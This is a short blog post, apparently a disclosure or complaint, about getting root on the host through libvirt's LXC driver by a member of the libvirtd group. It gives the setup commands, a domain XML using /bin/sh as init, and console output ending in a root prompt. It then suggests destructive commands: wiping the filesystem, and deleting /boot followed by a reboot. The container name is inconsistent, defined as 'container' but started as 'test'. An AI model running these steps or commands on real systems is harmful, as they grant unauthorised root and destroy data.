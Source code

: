 ```yaml
---
layout: post
title: Docker Container Madness
---
```


I'm unsure if this is a vulnerability on the intended behaviour of LXC/Docker. 
Nevertheless, this harmless configuration file seems to cause A LOT of worry.

Preamble:
{% highlight bash %}
# apt-get install docker virt-manager
# export LIBVIRT_DEFAULT_URI=lxc:///{% endhighlight %}

Create an unprivileged user:
{% highlight bash %}
  # useradd -G libvirtd user 
{% endhighlight %}
Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. container.xml
{% highlight xml %}
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
{% endhighlight %}
Import container into Libvirt:
{% highlight bash %}
  user@host:~$ virsh define container.xml
{% endhighlight %}
Start the container:
{% highlight bash %}
  user@host:~$ virsh start test
  user@host:~$ virsh console test
{% endhighlight %}
And now run bash shell:
{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

{% highlight bash %}
  root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively have a bit of fun
{% highlight bash %}
  root@host:/# rm /boot/*; reboot;
{% endhighlight %}


Is it possible to be careful with Docker? It doesn't seem safe for mortals.


{% highlight bash %}
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
```
{% endhighlight %}
